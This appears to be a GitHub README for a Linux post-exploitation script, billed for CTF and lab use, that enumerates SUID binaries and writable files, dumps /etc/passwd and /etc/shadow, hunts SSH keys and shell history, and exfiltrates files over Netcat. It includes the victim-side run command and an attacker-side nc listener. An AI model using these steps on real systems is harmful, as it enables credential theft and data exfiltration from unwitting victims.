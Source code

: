 # Victimfilesdownload_shell
 🔐 Post-Exploitation Enumeration & Exfiltration Script (Linux) This script is designed for CTF and lab environments to automate key post-exploitation tasks after gaining a shell on a Linux target.  🧰 Features:  Enumerates SUID binaries (priv esc vectors)  Finds world-writable files  Dumps /etc/passwd, attempts /etc/shadow  Locates SSH private keys and .bash_history  Supports Netcat-based file exfiltration to attacker machine  ⚠️ Educational Use Only – Do not use on live/production systems without permission.

🛠️ How to Use (in your lab):

🖥️ On the Victim Machine (after gaining shell):

chmod +x post_exploitation_enum_and_exfil.sh

./post_exploitation_enum_and_exfil.sh <your-kali-ip> <port>

This will:

Enumerate SUID files, world-writable files

Dump /etc/passwd, try /etc/shadow

Search for SSH keys and .bash_history

Use Netcat to send /etc/passwd back to your Kali

📡 On Your Kali (Attacker) Machine:
Start listener to receive the file:

nc -lvp <port> > passwd_loot.txt

